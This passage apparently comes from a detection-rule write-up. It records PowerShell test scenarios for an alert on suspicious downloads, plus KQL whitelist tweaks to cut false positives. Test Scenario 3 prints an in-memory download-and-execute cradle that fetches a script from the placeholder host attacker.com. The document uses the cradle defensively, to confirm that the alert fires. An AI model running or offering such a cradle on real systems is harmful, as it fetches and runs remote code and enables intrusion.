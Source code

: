 \*\*Expected Result:\*\* No alert (whitelisted domain)  

\*\*Actual Result:\*\* ✅ No alert generated



\### Test Scenario 2: EICAR Test File Download

\*\*Command:\*\*

```powershell

Invoke-WebRequest -Uri "http://testdomain.com/eicar.txt" -OutFile "C:\\temp\\test.txt"

```

\*\*Expected Result:\*\* Alert triggered  

\*\*Actual Result:\*\* ✅ Alert generated (Incident #193653)



\### Test Scenario 3: In-Memory Execution

\*\*Command:\*\*

```powershell

IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/malicious.ps1')

```

\*\*Expected Result:\*\* Alert triggered  

\*\*Actual Result:\*\* ✅ Alert generated



---



\## 🚨 False Positive Management



\### Common False Positives



\*\*1. IT Admin Scripts\*\*

\- \*\*Scenario:\*\* Admins downloading tools from vendor sites

\- \*\*Solution:\*\* Whitelist known admin accounts or approved vendor domains

\- \*\*KQL Enhancement:\*\* `| where Account !in ("admin-user1", "admin-user2")`



\*\*2. Software Deployment Scripts\*\*

\- \*\*Scenario:\*\* SCCM/Intune scripts downloading installers

\- \*\*Solution:\*\* Whitelist deployment service accounts

\- \*\*KQL Enhancement:\*\* `| where Account !startswith "svc-deploy"`
